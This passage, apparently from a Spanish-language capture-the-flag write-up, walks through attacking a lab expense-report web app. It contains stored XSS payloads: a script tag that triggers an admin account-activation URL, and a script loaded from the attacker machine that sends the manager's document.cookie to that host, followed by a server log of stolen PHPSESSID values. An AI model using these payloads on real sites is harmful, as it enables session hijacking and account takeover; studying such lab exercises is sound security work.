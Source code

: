- De aquí podríamos simplemente añadir esta cookie y autorizar a nuestro usuario.
- De una vez adelanto que esto no servirá, porque la página no permite a dos administradores logueados a la vez.

- Otra forma de hacerlo es poner a un usuario cuyo Firstname sea una redirección al link que nos debería permitir autorizar a este usuario:

~~~javascript
<script src="http://192.168.17.146/admin/admin.php?id=11&status=active"></script>
~~~

- De esta forma, deberíamos ver a nuestro usuario activo.
- Y así mismo, deberíamos ser capaces de iniciar sesión con nuestras credenciales:

![Pasted image 20240312235701](https://github.com/JoseVazquez101/Writteups/assets/111292579/a70cc8d4-ac29-4c88-8d2c-c5c8e1c2e2c9)

- Si nos dirigimos a `http://192.168.17.146/expense_reports.php` podremos ver el reporte por el cual nunca nos pagaron:

![Pasted image 20240312235913](https://github.com/JoseVazquez101/Writteups/assets/111292579/59c4f201-157e-4fc6-9bc0-ee9831ffa7c1)

- Podemos subir el reporte con el botón verde.
- El reporte se ha subido, pero no aceptado, lo cual es un problema porque aún no podemos cobrar por el.
- Si analizamos más, podemos ver que tenemos un mannager, probablemente el es quien acepta las solicitudes subidas, su username es `mriviere` según el panel de usuarios:

![Pasted image 20240313000202](https://github.com/JoseVazquez101/Writteups/assets/111292579/cbd5f419-afdb-403a-bbaf-eb11f88beb50)

- Aquí podemos aplicar un `cookie hijacking` de tal manera que le robaremos la sesión a nuestro mannager.
- Hay un apartado de chats donde justamente hay conversaciones con este usuario.
- Ahora bien, primero subiremos un comentario que contendrá una redirección en segundo plano a un archivo montado en nuestra máquina de atacante:

~~~javascript
<script src="http://192.168.17.128/rubberCookie.js"></script>
~~~

- Y el contenido de este recurso será el siguiente, nos mostrará la cookie del usuario en cuestión:

~~~javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.17.128/?cookie=' + document.cookie);
request.send();
~~~

- Al abrir mi server en Python, me llegaron demasiadas cookies.
- Tras probarlas todas, finalmente dí con la del usuario que buscábamos:

~~~bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.17.146 - - [13/Mar/2024 02:10:03] "GET /rubberCookie.js HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:03] "GET /?cookie=PHPSESSID=88f09hs9pqgt1i9qhk00mijds6 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:03] "GET /?cookie=PHPSESSID=88f09hs9pqgt1i9qhk00mijds6 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:05] "GET /rubberCookie.js HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:05] "GET /?cookie=PHPSESSID=tqqeic08l2abhlvq4ug1u31r94 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:05] "GET /?cookie=PHPSESSID=tqqeic08l2abhlvq4ug1u31r94 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:18] "GET /?cookie=PHPSESSID=ljs500bsvfe4ulgoanctj7viq6 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:18] "GET /?cookie=PHPSESSID=ljs500bsvfe4ulgoanctj7viq6 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:23] "GET /?cookie=PHPSESSID=88f09hs9pqgt1i9qhk00mijds6 HTTP/1.1" 200 -
~~~